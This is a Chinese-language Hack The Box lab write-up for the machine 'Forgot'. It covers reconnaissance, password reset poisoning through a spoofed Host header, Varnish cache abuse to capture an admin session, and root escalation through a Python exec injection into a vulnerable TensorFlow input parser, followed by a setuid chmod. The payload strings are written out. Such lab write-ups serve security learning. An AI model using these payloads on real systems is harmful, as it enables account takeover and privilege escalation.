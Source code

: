 ```yaml
---
title: 'HTB:Forgot'
date: 2023-03-09 16:38:55
tags: [HTB,学习笔记,刷题,靶场]
published: true
hideInList: false
feature: 
isTop: false
---
```

# HTB：Forgot

## Recon

端口扫描结果


1.nmap扫描结果：
```shell
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http
````

2. rustscan扫描结果

```shell
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
53/tcp open  domain  syn-ack
80/tcp open  http    syn-ack
```


子域名扫描：

wfuzz
```lua
000000108:   302        5 L      22 W       189 Ch      "home"                                                                                                                      
000000550:   302        5 L      22 W       189 Ch      "tickets"                                                                                                                   
000005034:   200        245 L    484 W      5189 Ch     "login"                                                                                                                     

000023937:   503        14 L     28 W       283 Ch      "darkeye"                                                                                                                   
000023938:   503        14 L     28 W       284 Ch      "locblog"                                                                                                                   
000023933:   503        14 L     28 W       284 Ch      "needlock"                                                                                                                  
000023936:   503        14 L     28 W       283 Ch      "crs"                                                                                                                       
000023935:   503        14 L     28 W       283 Ch      "krename"                                                                                                                   
000023932:   503        14 L     28 W       283 Ch      "newsfighter"                                                                                                               
000023929:   503        14 L     28 W       283 Ch      "using_libraries"                                                                                                           
000023931:   503        14 L     28 W       283 Ch      "anonynews"                                                                                                                 
000023952:   503        14 L     28 W       284 Ch      "oxine"                                                                                                                     
000023943:   503        14 L     28 W       284 Ch      "im2html"                                                                                                                   
000023947:   503        14 L     28 W       283 Ch      "1970_xeno"                                                                                                                 
000023950:   503        14 L     28 W       284 Ch      "cowloop"                                                                                                                   
000023941:   503        14 L     28 W       283 Ch      "sicons"                                                                                                                    
000023953:   503        14 L     28 W       283 Ch      "mesa"                                                                                                                      
000023954:   503        14 L     28 W       284 Ch      "blender"                                                                                                                   
000023956:   503        14 L     28 W       284 Ch      "devil"                                                                                                                     
000023955:   503        14 L     28 W       284 Ch      "cyberx3d-c"                                                                                                                
000023957:   503        14 L     28 W       284 Ch      "freewrl"                                                                                                                   
000023961:   503        14 L     28 W       284 Ch      "openvrml"                                                                                                                  
000023963:   503        14 L     28 W       283 Ch      "vrml2pov"                                                                                                                  
000023958:   503        14 L     28 W       283 Ch      "freewrlduneinputdevice"                                                                                                    
000023959:   503        14 L     28 W       284 Ch      "libsball"                                                                                                                  
000023964:   503        14 L     28 W       284 Ch      "wings3d"                                                                                                                   
000023965:   503        14 L     28 W       283 Ch      "xigax"                                                                                                                     
000023966:   503        14 L     28 W       283 Ch      "xj3d"                                                                                                                      
000023967:   503        14 L     28 W       283 Ch      "blogpinger"                                                                                                                
000050631:   200        260 L    517 W      5523 Ch     "reset"                                                                                                                     
000065584:   200        252 L    498 W      5227 Ch     "forgot"
````


技术框架

- `werkzeug 2.1.2`
- `python3.8.10`



网站浏览，看源代码，看架构，看功能点。发现了注释

![20230306](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_3/20230306.png)

## Web探索 到拿到user flag

### Password reset poisoning

发送以下数据包（修改host地址）：

```
GET /forgot?username=robert-dev-1450212 HTTP/1.1
Host: 你的host地址
Upgrade-Insecure-Requests: 1
DNT: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/.png),*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.188/forgot
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
sec-gpc: 1
Connection: close
```

然后本地nc -lvp监听80

### /tickets - static cache

![20230306](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_3/202303061.png)

Varnish/6.2 是用于缓存一些静态资源的。并且历史也爆过存在缓存投毒的漏洞（cache poisoning） ，去查找被缓存的静态资源

> There will be some kind of rule, typically matching on the URL, to define what is cached and what is not. I’ll do some tests to see if I can figure out more about that rule.

查找 `cache-control` 的header，那么为什么要看这个呢？不妨问问Notion AI

问AI关于cache-control的内容如下：

`Cache-Control` 是HTTP协议中的一个用于控制缓存的header。通过设置不同的值，可以控制浏览器或代理服务器是否缓存响应，以及缓存多长时间等。而 `Age` 是HTTP协议中的一个响应头部，用于表示缓存对象在代理服务器或网关中存储的时间。它的值以秒为单位。

一番确定后发现Varnish会去匹配string `/static` 进行缓存

然后在 `/static` 下创建缓存目录后，发现cookie的部分被用到了缓存技术栈中

![20230306](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_3/202303062.png)

![20230306](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_3/202303063.png)

这个时候开个新的匿名模式浏览器，访问这个static下的资源，然后再访问 `/tickets` 是可以浏览到tickets页面的（但是并不应该浏览到）

### /admin_tickets

**发现有不能点的要看一下源代码**，发现了链接：[http://10.10.11.188/admin_tickets](http://10.10.11.188/admin_tickets)

点进去跳转 [`http://10.10.11.188/home?err=ACCESS_DENIED`](http://10.10.11.188/home?err=ACCESS_DENIED)

### 钓鱼：等待链接

创建一个不存在的路径：

- [`http://10.10.11.188/Admin_tickets/Static/Meow`](http://10.10.11.188/Admin_tickets/Static/Meow)

然后等管理员访问

看见有session访问这个页面。（记得storage清session）

然后看到了页面的auth .这块真的好坑，网页会自动大写首字母。所以看密码的话，还是看raw response的好。

![20230306](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_3/202303064.png)

## Esclation

`sudo -l` 看下权限

```
Matching Defaults entries for diego on forgot:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User diego may run the following commands on forgot:
    (ALL) NOPASSWD: /opt/security/ml_security.py
diego@forgot:~$
```

看了下py代码

![20230306](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_3/202303065.png)

通过函数 `Xnew = getVec(data)` 分析网页特征，并且保存在 `Xnew` 这个变量里。然后再分别加载不同模型，用什么 `loaded_model`函数

最后，根据特征数值计算，选择 `score` 大于0.5的，判断其为 不安全的：

```lua
preprocess_input_exprs_arg_string(data[i],safe=False)
```

这里用到了机器学习的库 `tensorflow.python.tools.saved_model_cli`

[https://security.snyk.io/vuln/SNYK-PYTHON-TENSORFLOW-2841408](https://security.snyk.io/vuln/SNYK-PYTHON-TENSORFLOW-2841408)

看github上commits的变更，发现了该函数有修改，默认safe为True：

![20230306](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_3/202303066.png)

之前会直接执行 `expr`

![20230306](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_3/202303067.png)

然后关于这里input的介绍：

![20230306](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_3/202303068.png)

```lua
input_key, expr = input_raw.split('=', 1) 
```

构造一个类似与 `input_key=<python expression>` 基于此基础修改POC,并且要保证其内部的触发xss检测

```lua
to=Admin&link=/test&reason=abc=exec("""import os\nos.system("touch /tmp/114514")""");#<script>alert(1)</script>&issue=Getting error while accessing search feature in enterprise platform.
```

![20230306](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_3/202303069.png)

同时服务端运行 `sudo /opt/security/ml_security.py 2>/dev/null`

然后发现了文件夹下有我们的 114514 这个文件，

接着获取权限：这里的 `4777` 下的 `4` 代表 `Set UID` （可执行文件执行时，拥有文件所有者的权限。）

```
abc=exec("""import os\nos.system("chmod 4
.777 /tmp/114514")""");#<script>alert(1)</script>
```

运行：

```
diego@forgot:/tmp$ ./114514 -p
```

此时看id已经是root了

## Reference
- https://0xdf.gitlab.io/2023/03/04/htb-forgot.html


